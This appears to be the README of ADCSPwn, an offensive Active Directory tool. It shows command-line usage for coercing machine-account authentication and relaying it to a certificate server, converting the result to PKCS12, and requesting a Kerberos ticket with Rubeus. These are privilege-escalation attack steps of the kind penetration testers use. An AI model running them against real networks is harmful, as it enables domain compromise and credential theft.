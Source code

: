 # ADCSPwn

A tool to escalate privileges in an active directory network by coercing authenticate from machine accounts and relaying to the certificate service.

## Usage

Run `ADCSPwn` on your target network.

```
adcspwn.exe --adcs <cs server> --port [local port] --remote [computer]

Required arguments:
adcs            -       This is the address of the AD CS server which authentication will be relayed to.

Optional arguments:
port            -       The port ADCSPwn will listen on.
remote          -       Remote machine to trigger authentication from.

Example usage:
adcspwn.exe --adcs cs.pwnlab.local
adcspwn.exe --adcs cs.pwnlab.local --port 9001
adcspwn.exe --adcs cs.pwnlab.local --remote dc.pwnlab.local
adcspwn.exe --adcs cs.pwnlab.local --remote dc.pwnlab.local --port 9001
```

Convert the output into the PKCS12 certificate format using `bundle2pkcs12`

```
python3 bundle2pkcs12.py <output blob>
```

Request a TGT with the PKCS12 certificate using Rubeus.
